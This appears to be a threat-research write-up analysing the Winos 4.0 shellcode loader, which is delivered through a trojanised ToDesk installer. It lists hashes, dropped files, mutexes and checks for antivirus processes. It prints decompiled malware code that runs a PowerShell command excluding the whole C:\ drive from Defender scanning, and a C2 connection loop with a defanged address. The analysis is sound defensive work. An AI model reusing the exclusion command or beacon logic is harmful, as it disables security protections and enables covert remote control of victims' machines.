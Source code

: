 ## Winos 4.0 Loader - sRDI Shellcode Analysis

The Winos 4.0 loader is a lightweight shellcode runner and DLL injector commonly used by Chinese threat actors. It decrypts and loads embedded or file-based shellcode. Its design focuses on stealthy in-memory execution and flexible payload delivery.

Analysis starts with an NSIS installer binary called ToDesk_Setup_4.7.6.3.exe (86758fb6c5aa0093741402302a0478dab94992ff5c8426f2bc24c815cdeec08c).

This is a trojanised installer file which writes the legitimate application to: "C:\Program Files (x86)\Application", as well as a series of shellcode loaders and shellcode executors in "C:\Users\User\AppData\Local" and "C:\Users\User\AppData\Roaming\TrustAsia".

## First Loader
insttect.exe (ecd6742f5107215ed10fb7aebca3c35190e9a2a4022dc019f863abdcdd530fa9) - This is our first shellcode loader, which gets executed from the AppData\Local directory.

Setting a breakpoint at CreateFileA calls we can see that the binary creates a handle to Single.ini, which was written to the same directory.

![image](https://github.com/user-attachments/assets/82a5315e-653b-4291-b306-5e59c2db6e5d)

![image](https://github.com/user-attachments/assets/585ee1e7-8cd0-44ab-ba89-2cd090166349)

Following along until the next VirtualAlloc call, we can see in the ESI / EDI registers that there is a PE file in memory:

![image](https://github.com/user-attachments/assets/6dae1fd8-f9f4-4c5c-b944-0207e79a590e)

![image](https://github.com/user-attachments/assets/62629884-609f-4edf-83e0-70ba48635faa)

![image](https://github.com/user-attachments/assets/9ec325d5-9c80-4701-bdec-c6d88acdf6f4)

We could dump this executable from memory, alternatively, we can use a tool like Binary Refinery to carve the PE from the Single.ini file:

```
ef Single.ini | carve-pe | peek
```

![image](https://github.com/user-attachments/assets/a14519a6-99ee-4415-a072-3c0837c96ad5)

```
ef Single.ini | carve-pe | dump C:\Users\DFIR\Desktop\carved-dll.dll
```

Continuing with debugging we can see that the DLL is called with the VFPower export.

![image](https://github.com/user-attachments/assets/541eeb7a-56b8-45ff-a543-97f556ec3e4e)

Shortly after we notice the following mutex creation:

![image](https://github.com/user-attachments/assets/cbc0b715-ab6c-410c-9606-a9b7b2c0df62)


A reference to the CreateToolhelp32Snapshot API

![image](https://github.com/user-attachments/assets/44172ca6-9c1f-46ec-a1c3-90da6cee6423)

And there is a reference to 360Tray.exe

![image](https://github.com/user-attachments/assets/95574c05-a5ef-4f78-bf67-fb81bb21daa1)

Taking a look at IDA, there's the following function:

```
.text:100091CB loc_100091CB:                           ; CODE XREF: .text:10009163↑j
.text:100091CB                 mov     eax, off_10022D84
.text:100091D0                 movzx   eax, byte ptr [eax-758C082Ah]
.text:100091D7                 mov     ecx, off_10022B44
.text:100091DD                 add     ecx, edi
.text:100091DF                 xor     eax, 1
.text:100091E2                 push    eax
.text:100091E3                 push    offset dword_1001D176
.text:100091E8                 push    esi
.text:100091E9                 call    ecx
.text:100091EB                 add     esp, 0Ch
.text:100091EE                 mov     eax, off_10022B30
.text:100091F3                 add     eax, edi
.text:100091F5                 mov     ecx, esi
.text:100091F7                 lea     esi, [ebp-54h]
.text:100091FA                 push    esi
.text:100091FB                 call    eax
.text:100091FD                 mov     eax, off_10022B14
.text:10009202                 add     eax, edi
.text:10009204                 lea     ecx, [ebp-60h]
.text:10009207                 lea     edx, [ebp-3Ch]
.text:1000920A                 push    edx
.text:1000920B                 call    eax
.text:1000920D                 nop     dword ptr [eax]
```

dword_1001D176 is a list containing the following strings:

- 360Tray.exe
- 360LogCenter.exe
- 360Safe.exe
- 360speedld.exe
- LiveUpdate360.exe

The loader loops through the running processes by using CreateToolhelp32Snapshot and Process32Next, and for each process name it calls StrStrIW to check if it matches any of a hardcoded list of strings belonging to the 360 Security suite - a popular Chinese antivirus product.

## Second Loader

The second loader gets written to "C:\Users\User\AppData\Roaming\TrustAsia".

intel.dll (83E9E41137F05CB4DE5710E2EC581E7EF66097FBF68B28A980F15015F8175B60)

This shellcode loader is responsible for executing a DLL contained within Config.ini (Or Config2.ini depending on existing mutexes).

Similar to the first loader, these .ini files contain a DLL that can be carved and dumped to disk. As the loading is so similar to the first, I will just carve the DLL and focus on that.

Instantly it's clear that a Mutex with the value "zhuxianlu" is created.

![image](https://github.com/user-attachments/assets/b35d128a-886b-446b-9796-a58d3e27addc)

StartAddress is responsible for creating a Defender exclusion for the entire C:\ drive:

```
 v15 = a1;
  v16 = retaddr;
  v14 = -1;
  v13 = &loc_1003A1F0;
  ExceptionList = NtCurrentTeb()->NtTib.ExceptionList;
  *(_DWORD *)&v11[6] = &v17;
  cv = _Cnd_internal_imp_t::_get_cv((_Cnd_internal_imp_t *)&v9);
  qmemcpy(
    v10,
    "/C powershell -Exe\"\"cutionPolicy B\"\"ypass -Command \"Add-MpPreference -ExclusionPath 'C:\\'\"",
    sizeof(v10));
  v1 = (int *)unknown_libname_3(v10, v11);
  v2 = *v1;
  v3 = v1[1];
  v7[3] = v2;
  v7[4] = v3;
  sub_10017C30(v2, v3, cv);
  v14 = 0;
  sub_1000A630(v5, v7);
  v14 = -1;
  sub_10017C10(v7);
  v6.cbSize = 60;
  memset(&v6.fMask, 0, 0x38u);
  v6.fMask = 64;
  v6.hwnd = 0;
  v6.lpVerb = "open";
  v6.lpFile = "cmd.exe";
  v6.lpParameters = (LPCSTR)sub_10004420(v5);
  v6.lpDirectory = 0;
  v6.nShow = 0;
  if ( ShellExecuteExA(&v6) && v6.hProcess )
  {
    WaitForSingleObject(v6.hProcess, 0xFFFFFFFF);
    CloseHandle(v6.hProcess);
  }
```

Probably the most notable function is the following, which is responsible for C2 communication:

```
WSAStartup(0x202u, &WSAData);
  pHints.ai_flags = 0;
  memset(&pHints.ai_addrlen, 0, 16);
  pHints.ai_family = 2;
  pHints.ai_socktype = 1;
  pHints.ai_protocol = 6;
  while ( 1 )
  {
    v5 = getaddrinfo(pNodeName, "18852", &pHints, &ppResult);
    if ( !v5 )
    {
      for ( i = ppResult; i; i = i->ai_next )
      {
        s = socket(i->ai_family, i->ai_socktype, i->ai_protocol);
        if ( s != -1 )
        {
          v5 = connect(s, i->ai_addr, i->ai_addrlen);
          if ( v5 != -1 )
            break;
          closesocket(s);
          s = -1;
        }
      }
      freeaddrinfo(ppResult);
      if ( s != -1 )
        break;
    }
    Sleep(0xBB8u);
  }
```

Essentially the value of pNodeName is what we are after, as that is the C2 address that is being contacted by this loader over port 18852

As it's a global variable we can follow it in IDA and see that is resolves to: 120.89.71[.]130

![image](https://github.com/user-attachments/assets/81861b1f-9573-4ea2-ab72-0fcf3309d0b4)

So our C2 / downloader address is 120.89.71[.]130:18852

